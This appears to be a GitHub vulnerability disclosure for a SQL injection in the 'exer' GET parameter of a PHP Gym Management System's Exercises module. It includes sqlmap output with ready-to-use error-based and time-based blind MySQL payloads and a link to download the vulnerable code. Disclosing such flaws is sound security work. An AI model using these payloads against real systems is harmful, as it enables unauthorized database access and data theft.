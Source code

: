 # Gym-Management-Exercises-Sqlinjection
## Sqlinjection location
After logging in to the background
The injection point is in Exercises module

![image](https://user-images.githubusercontent.com/81155906/183283137-46fb7afa-a93c-4578-89ac-eb9a1de18765.png)

#### Sqlmap Attack

![image](https://user-images.githubusercontent.com/81155906/183283180-e4ae8794-c141-476c-87e3-865774ec96a0.png)



---
Parameter: exer (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: exer=26'||(SELECT 0x77616550 WHERE 7593=7593 AND (SELECT 2167 FROM(SELECT COUNT(*),CONCAT(0x7171767171,(SELECT (ELT(2167=2167,1))),0x716b787071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: exer=26'||(SELECT 0x737a4e63 WHERE 5129=5129 AND (SELECT 8000 FROM (SELECT(SLEEP(5)))ZYTF))||'
---
[16:52:27] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP, PHP 7.3.4
back-end DBMS: MySQL >= 5.0



## Code Download

https://www.sourcecodester.com/php/15515/gym-management-system-project-php.html
